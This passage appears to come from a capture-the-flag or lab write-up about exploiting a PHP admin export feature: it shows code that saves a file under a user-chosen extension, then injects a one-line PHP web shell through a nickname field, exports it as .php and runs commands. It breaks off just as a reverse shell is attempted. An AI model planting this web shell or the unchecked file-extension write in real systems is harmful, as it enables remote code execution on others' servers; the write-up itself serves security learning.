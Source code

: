```php
  $s .= '</table>';
} 

$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
file_put_contents($filename, $s);
header('Location: /admin.php?msg=Data has been saved in ' . $filename);
?>

```

We can see that it takes the 'nickname' parameter when executing the code. Lets try and instert this snippet of php to get RCE into the nickname parameter

```php
<?php system($_GET['cmd']);?>
```

![image](18.png)

Now we export it as php. When accessing the export with the parameter cmd=id, we can see that the command was executed successfully.

![image](21.png)

Now we try to establish a reverse shell:
